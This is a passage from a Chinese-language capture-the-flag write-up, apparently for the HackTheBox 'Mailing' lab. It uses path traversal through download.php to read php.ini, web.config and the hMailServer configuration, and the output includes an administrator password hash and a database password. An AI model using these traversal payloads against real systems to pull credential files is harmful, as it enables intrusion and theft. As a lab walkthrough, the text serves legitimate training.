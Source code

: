 ```
ID           Response   Lines    Word       Chars       Payload                                                                                        
=====================================================================
...
000000280:   200        1961 L   10642 W    75358 Ch    "/php\php.ini"                                                                                 
000000281:   200        1961 L   10642 W    75358 Ch    "/PHP\php.ini"   

...
```

查看```http://mailing.htb/download.php?file=../../../../../php/php.ini```可以访问到文件内容

因为装的是80端口装的是IIS，合理猜测路径:http://mailing.htb/download.php?file=../../../../../../inetpub/wwwroot/web.config

显示
```
<configuration>
    <system.web>
        <customErrors mode="Off"/>
    </system.web>
</configuration>
```



web上几个人名：
- Ruy Alonso
- Maya Bendito
- Gregory Smith


访问下面路径会报错，其他则不会```http://mailing.htb/download.php?file=../../../../../../users/maya```

可能存在用户名：maya

页面返回```File not found.```可能是文件不存在，也可能是没有权限访问


根据扫描信息知道网站搭了hMailServer，通过[这里](https://www.cnblogs.com/huyueping/p/7603132.html#)知道配置文件地址

访问：
```
view-source:http://mailing.htb/download.php?file=../../../../../../Program%20Files%20(x86)/hMailServer\Bin\hMailServer.INI
```

返回：
```
[Directories]
ProgramFolder=C:\Program Files (x86)\hMailServer
DatabaseFolder=C:\Program Files (x86)\hMailServer\Database
DataFolder=C:\Program Files (x86)\hMailServer\Data
LogFolder=C:\Program Files (x86)\hMailServer\Logs
TempFolder=C:\Program Files (x86)\hMailServer\Temp
EventFolder=C:\Program Files (x86)\hMailServer\Events
[GUILanguages]
ValidLanguages=english,swedish
[Security]
AdministratorPassword=841bb5acfa6779ae432fd7a4e6600ba7
[Database]
Type=MSSQLCE
Username=
Password=0a9f8ad8bf896b501dde74f08efd7e4c
PasswordEncryption=1
Port=0
Server=
Database=hMailServer
Internal=1
```